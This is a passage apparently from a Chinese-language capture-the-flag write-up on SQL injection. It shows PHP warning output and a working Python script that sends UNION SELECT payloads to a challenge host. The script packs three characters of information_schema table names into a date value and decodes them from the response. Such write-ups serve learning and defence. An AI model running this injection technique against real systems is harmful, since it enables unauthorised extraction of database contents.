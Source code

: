 ``` txt
PHP Warning:  date() expects parameter 2 to be int, float given in /Users/li.hu/Documents/playground/ctf/sql-injection/test.php on line 7

9
PHP Warning:  date() expects parameter 2 to be int, float given in /Users/li.hu/Documents/playground/ctf/sql-injection/test.php on line 7

10
PHP Warning:  date() expects parameter 2 to be int, float given in /Users/li.hu/Documents/playground/ctf/sql-injection/test.php on line 7
```

代表我們最多可以一次拿 5 個字元，因為 `128^6` 還在許可範圍之內，不會爆炸。

但是呢，Python 在使用 `datetime.strptime` 將日期轉為 timestamp 時，最高的上限似乎是 9999 年，超過以後就會拋錯。因此，除非自己寫一套轉換，否則最多就只能一次拿 3 個字元的資料。寫這個轉換光想就很麻煩（要考慮到每個月的天數跟閏年），因此我只實作了 3 個字元的版本，程式碼如下：

``` python
# exploit-ava-3x.py
import requests
import datetime
import json
import urllib.parse
import time

def encode(raw):
  return urllib.parse.quote(raw.encode('utf8'))

host = 'https://od-php.herokuapp.com/sql'
base_time = 1672502400
index = 1
result = ''
field = 'group_concat(table_name)'
fr = " FROM information_schema.tables WHERE table_schema != 'mysql' AND table_schema != 'information_schema'"
fr = encode(fr)
start = time.time()
while True:
  payload = f'''
    ascii(SUBSTRING({field},{index}))*86400
    + ascii(SUBSTRING({field},{index+1}))*86400*128
    + ascii(SUBSTRING({field},{index+2}))*86400*128*128
    + {base_time}
  '''
  response = requests.get(f'{host}/availability.php?id=12345%20union%20select%201%20,{base_time},{encode(payload)},4%20{fr}&start_time=2023-01-01&end_time=2023-01-01')
  index += 3
  if response.ok:
    data = json.loads(response.text)
    d = data['events'][0]['end']
    print(d)
    if d == '2023-01-01':
      break
    else:
      diff = datetime.datetime.strptime(d, "%Y-%m-%d").timestamp() - base_time
      diff = int(diff/86400)
      is_over = False
      while diff > 0:
        num = diff % 128
        if num == 0:
          is_over = True
          break
        result += chr(num)
        diff = int((diff - num) / 128)
```